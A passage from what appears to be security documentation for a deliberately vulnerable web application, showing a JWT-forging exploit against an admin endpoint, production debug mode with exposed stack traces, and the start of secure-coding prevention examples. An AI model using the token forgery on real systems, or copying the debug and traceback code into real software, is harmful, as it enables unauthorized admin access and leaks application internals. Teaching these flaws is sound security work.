 **Exploitation**:
```python
# Forge admin JWT token
import jwt
token = jwt.encode(
    {'user_id': 1},  # Admin user ID
    'secret',        # Known JWT secret
    algorithm='HS256'
)

# Use forged token
headers = {'Authorization': f'Bearer {token}'}
response = requests.get('/api/admin', headers=headers)
```

### 4. Debug Mode in Production
**Location**: `backend/app.py`
```python
# Debug mode enabled
app.run(host='0.0.0.0', debug=True, port=5000)

# Stack traces exposed
@app.errorhandler(Exception)
def handle_error(error):
    return jsonify({
        'error': str(error),
        'traceback': traceback.format_exc()  # Exposing stack trace
    }), 500
```

**Impact**:
- Detailed stack traces exposed to users
- Sensitive error details revealed
- Debug information leakage
- Potential for security control bypass

**Exploitation**:
```python
# Trigger error to get stack trace
response = requests.get('/api/transactions/invalid')
print(response.json()['traceback'])  # View application internals
```

## Prevention Methods
Implementing secure coding practices helps prevent vulnerabilities. Here are examples of proper implementations:

### 1. Secure Transaction Processing
```python
from sqlalchemy import and_
from contextlib import contextmanager

@contextmanager
def atomic_transaction():
    """Ensure transaction atomicity with proper rollback"""
    try:
        yield
        db.session.commit()
    except Exception as e:
        db.session.rollback()
        raise TransactionError(str(e))

def validate_transfer(sender, receiver, amount):
    """Validate transfer parameters"""
    if not isinstance(amount, Decimal):
```